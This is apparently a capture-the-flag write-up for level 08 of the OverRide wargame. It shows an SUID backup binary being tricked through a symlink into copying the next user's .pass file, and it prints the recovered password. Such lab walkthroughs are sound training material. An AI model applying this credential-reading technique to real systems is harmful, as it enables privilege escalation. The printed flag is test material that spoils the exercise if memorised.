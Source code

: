 # Level 8

## Vulnerability

Binary backs up password via symlink

## Context

We find a binary ```level08``` and a directory ```backups``` containing ```.log```, all with owner ```level09``` and SUID.
```
level08@OverRide:~$ ls -l
...
drwxrwx---+ 1 level09 users    60 Oct 19  2016 backups
-rwsr-s---+ 1 level09 users 12975 Oct 19  2016 level08
level08@OverRide:~$ ls -la backups/
...
-rwxrwx---+ 1 level09 users     0 Oct 19  2016 .log
```

When run without arguments its prints ```Usage: ./level08 filename```.
```
level08@OverRide:~$ ./level08
Usage: ./level08 filename
```

When run with a file as argument it copies the file to the ```./backups/``` folder.
```
level08@OverRide:~$ chmod 777 .
level08@OverRide:~$ echo "oh hi" > hi
level08@OverRide:~$ ./level08 hi
level08@OverRide:~$ cat backups/hi
oh hi
```

It also creates a log of the backup
```
level08@OverRide:~$ cat backups/.log
LOG: Starting back up: hi
LOG: Finished back up hi
```

See [disassembly notes](https://github.com/anyashuka/Override/blob/main/level08/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

## Solution

Can we simply backup the password?
```
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

No, because it doesn't deal with files inside directories (concaternates filepath ```//```), it only works with files in the current directory.

So, in the home directory, lets create a symlink to ```/home/users/level09/.pass```. Now we can run the binary on the symlink, and it creates a backup of the password file in the ```backups/``` folder.
```
level08@OverRide:~$ ln -s /home/users/level09/.pass password
level08@OverRide:~$ ./level08 password
level08@OverRide:~$ cat backups/password
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
